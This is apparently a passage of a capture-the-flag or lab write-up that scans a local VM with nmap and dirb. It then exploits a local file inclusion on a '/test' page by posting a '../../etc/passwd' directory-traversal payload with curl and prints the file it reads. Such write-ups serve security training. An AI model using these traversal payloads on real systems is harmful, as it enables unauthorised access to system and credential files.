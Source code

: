 ```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
MAC Address: 00:0C:29:53:92:9E (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

From the analysis we find that
- 22 OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0). We can probably tell what debian version it is.
We're running:
- Apache 2.2.22
- PHP 5.3.10-1 (How can we find this out)

A dirb scan of the site reveals the following web pages.
```
root@marksmith:~# dirb http://192.168.109.129

+ http://192.168.109.129:80/add (CODE:200|SIZE:307)
+ http://192.168.109.129:80/c (CODE:200|SIZE:1)
+ http://192.168.109.129:80/cgi-bin/ (CODE:403|SIZE:291)
+ http://192.168.109.129:80/head (CODE:200|SIZE:2793)
+ http://192.168.109.129:80/in (CODE:200|SIZE:47559)
+ http://192.168.109.129:80/index (CODE:200|SIZE:3267)
+ http://192.168.109.129:80/index.php (CODE:200|SIZE:3267)
+ http://192.168.109.129:80/panel (CODE:302|SIZE:2469)
+ http://192.168.109.129:80/server-status (CODE:403|SIZE:296)
+ http://192.168.109.129:80/show (CODE:200|SIZE:1)
+ http://192.168.109.129:80/test (CODE:200|SIZE:72)

```
Of interest is page `http://192.168.109.129:80/test`.   
We see other files are present which will be examined;
    __/add, /c, /head, /in, /index, /panel, /show__
Navigating to `/test` using curl we get an error;
```
root@marksmith:~# curl -v http://192.168.109.129/test
'file' parameter is empty. Please provide file path in 'file' parameter
```

We use curl to do a post to the file parameter `file=asdaf` and we get a different kind of error
```
root@marksmith:~# curl -v -d "file=asdaf" http://192.168.109.129/test
  ...
file not found
```
From this we can then attempt to check for LFI using directory traversal `../../etc/passwd`
```
root@marksmith:~# curl -d "file=../../etc/passwd" http://192.168.109.129/test
...
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
```